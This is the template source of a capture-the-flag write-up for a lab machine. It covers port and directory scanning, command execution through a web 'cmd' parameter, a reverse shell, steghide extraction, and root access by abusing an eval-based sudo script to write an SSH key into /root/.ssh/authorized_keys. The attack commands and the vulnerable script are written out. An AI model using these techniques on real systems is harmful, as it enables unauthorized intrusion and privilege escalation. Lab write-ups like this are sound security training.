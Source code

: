 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the target for open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.123.111", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-19 12:47 CET
Warning: 10.10.123.111 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.123.111
Host is up (0.15s latency).
Not shown: 88 closed tcp ports (conn-refused)
PORT   STATE    SERVICE     VERSION
22/tcp open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("The scan reveals two open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Next, we proceed to examine the website hosted on port 80.")}}

{{image("../../static/writeups/uahighschool/images/000001.jpg")}}

{{text("Inspecting the source code reveals a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets</code> directory.")}}

{{image("../../static/writeups/uahighschool/images/000002.jpg")}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets</code> displays a blank page, which seems unusual.")}}

{{text("Access to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets/writeups</code> is forbidden.")}}

{{text("I used a directory-scanning tool to uncover any hidden directories.")}}

{{console("gobuster dir -u http://10.10.123.111/assets/ -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.111/assets/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 322] [--> http://10.10.123.111/assets/images/]
/index.php            (Status: 200) [Size: 0]
Progress: 4615 / 4615 (100%)
===============================================================
Finished
===============================================================")}}

{{text("This reveals an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/index.php</code> file.")}}

{{text("Although the file is empty, trying out different parameters in the URL eventually yields a result.")}}

{{image("../../static/writeups/uahighschool/images/000003.jpg")}}

{{text("It appears that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd</code> parameter can accept arguments, returning base64-encoded output.")}}

{{text("Let's try and attempt to get a reverse shell.")}}

{{text("I use the following command from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code>. Remember to URL encode your payload.")}}

{{image("../../static/writeups/uahighschool/images/000004.jpg")}}

{{text("Passing the encoded payload as a parameter provides us with a reverse shell.")}}

{{image("../../static/writeups/uahighschool/images/000005.jpg")}}

{{header("Shell as deku", "shell-as-deku")}}

{{text("There was a file containing a password in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/Hidden_Content</code> directory, but its we don't know what is it for.")}}

{{console("cat passphrase.txt | base64 -d", "AllmightForEver!!!")}}

{{text("Further exploration leads to an unused image file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/html/assets/writeups</code> directory.")}}

{{text("I suspected the password might be for extracting hidden content using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>steghide</code>.")}}

{{text("I Downloaded the image using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wget 10.10.123.111/assets/writeups/oneforall.jpg</code>.")}}

{{text("Then, I attempted to extract hidden content with the password.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
steghide: the file format of the file 'oneforall.jpg' is not supported.")}}

{{text("The extraction failed because the file is of a wrong format.")}}

{{text("Viewing the file's hex dump reveals its <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PNG</code> signature.")}}

{{console("xxd oneforall.jpg | head", "00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..")}}

{{text("Changing the file signature to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>JPG</code> allows <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>steghide</code> to extract the hidden content.")}}

{{image("../../static/writeups/uahighschool/images/000006.jpg")}}

{{text("This reveals credentials to log in via <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SSH</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I checked <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo</code> permissions for the user.")}}

{{console("sudo -l", "[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>feedback.sh</code> as any user.")}}

{{text("Let's read this file.")}}

{{console("cat feedback.sh", "#!/bin/bash

echo 'Hello, Welcome to the Report Form       '
echo 'This is a way to report various problems'
echo '    Developed by                        '
echo '        The Technical Department of U.A.'

echo 'Enter your feedback:'
read feedback

if [[ '$feedback' != *'\'* && '$feedback' != *')'* && '$feedback' != *'$('* && '$feedback' != *'|'* && '$feedback' != *'&'* && '$feedback' != *';'* && '$feedback' != *'?'* && '$feedback' != *'!'* && '$feedback' != *'\\'* ]]; then
    echo 'It is This:'
    eval 'echo $feedback'

    echo '$feedback' >> /var/log/feedback.txt
    echo 'Feedback successfully saved.'
else
    echo 'Invalid input. Please provide a valid input.' 
fi
")}}

{{text("It echoes any input we provide, if it doesn't contain any of the blacklisted symbols. We can notice that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>></code> symbol is permitted, meaning we can use it to write to files.")}}

{{text("We generate a public key using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh-keygen</code>, copy the public key and save it in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root/.ssh/authorized_keys</code>")}}

{{console("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILO60uNhTUNMEDTfn5f+qZZDXWg1JcMGtypKRMyIxnn6 kali@kali >> /root/.ssh/authorized_keys")}}

{{image("../../static/writeups/uahighschool/images/000007.jpg")}}

{{text("We now can log in as root by providing our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> key.")}}

{{console("ssh root@10.10.123.111 -i id_rsa")}}

{{text("We are able to find the flag in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code>.")}}

{{image("../../static/writeups/uahighschool/images/000008.jpg")}}

{{script()}}